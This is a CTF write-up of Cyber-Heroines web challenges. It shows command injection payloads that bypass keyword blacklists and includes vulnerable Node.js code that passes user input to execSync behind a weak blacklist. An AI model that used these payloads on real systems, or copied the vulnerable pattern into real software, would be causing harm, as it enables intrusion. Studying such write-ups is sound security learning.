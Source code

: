 # WEB
## Grace Hopper
#os-command-injection 
There is os command injection on the site:
![[CTF/Cyber-Heroines/IMG/Pasted image 20230921220938.png]]
but some commands are blocked:
![[CTF/Cyber-Heroines/IMG/Pasted image 20230921221024.png]]
appears to be black-listing , so we'll try every possible way in the: `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection`
This seems to work:
![[CTF/Cyber-Heroines/IMG/Pasted image 20230921221131.png]]
![[CTF/Cyber-Heroines/IMG/Pasted image 20230921221223.png]]
![[CTF/Cyber-Heroines/IMG/Pasted image 20230921221305.png]]
payload:
```
ca$()t$()%20cyberheroines.txt
```

```
FLAG="CHCTF{t#!$_!s_T#3_w@Y}"
echo -n "$FLAG" | sha256sum > cyberheroines.txt
```
## Susan Landau
#csrf
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922005346.png]]

When we login with any name on the site then explore further and choose the "hard way":
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922004135.png]]
Ginger-bread cookie means cookie , csrf had this md5 value on which it said:
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922004106.png]]

## Radia PErlman
#os-command-injection #javascript-vulnerability
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922010746.png]]
look at the error:
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922011240.png]]
shows us the exact command being used at back-end
while all the other weren't working this payload worked:
```
https://cyberheroines-web-srv3.chals.io/dns?ip=8.8.8.8;ca%27t%27%20flag.txt
```
due to the fact that there must be a blacklist updated used to this as the above payload weren't working while the quotations worked!
![[CTF/Cyber-Heroines/IMG/Pasted image 20230922011611.png]]
other solves: `grep chctf flag.txt` , `strings flag.txt`
### VULNERABILITY:

- The `child_process` module in Node.js enables the execution of system commands and scripts within a Node.js application.
- Functions such as `child_process.exec()` and `child_process.execSync()` accept a command string and execute it on the server.
- However, when user input is directly incorporated into these functions, it can create vulnerabilities susceptible to command injection.

### vuln code:
```js
const express = require('express');
const path = require('path');
const cp = require('child_process');

const app = express();

// Serve static files from the 'public' folder
app.use(express.static('public'));

// Configure views folder and view engine as 'hbs'
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'hbs');

// Define routes for different pages

// Home page route
app.get('/', (req, res) => {
  res.render('index');
});

// About page route
app.get('/about', (req, res) => {
  res.render('about');
});

// Contact page route
app.get('/contact', (req, res) => {
  res.render('contact');
});

// Vulnerable DNS route
app.get('/dns', (req, res) => {
  const ip = req.query.ip;

  // Check if the input IP is safe
  if (isSafeInput(ip)) {
    try {
      // Execute 'nslookup' command and capture the output
      const commandOutput = cp.execSync(`nslookup ${ip} 2>&1`).toString();
      res.send('Command Output: ' + commandOutput);
    } catch (error) {
      res.send('Error: ' + error.message);
    }
  } else {
    res.send('Nope. You have to try harder!');
  }
});

// Check for unsafe input (e.g., unsafe keywords except "head")
function isSafeInput(input) {
  const unsafeKeywords = [
    "cat", "tail", "less", "more", "awk", "&&", "head", "|", "$", "`", "<", ">", "&", "*"
  ];
  return !unsafeKeywords.some(keyword => input.includes(keyword)) || input === "head";
}

// Start the server and listen on port 3000
app.listen(3000, () => {
  console.log('Server listening on port 3000');
});
```

## Shafrira Goldwasser
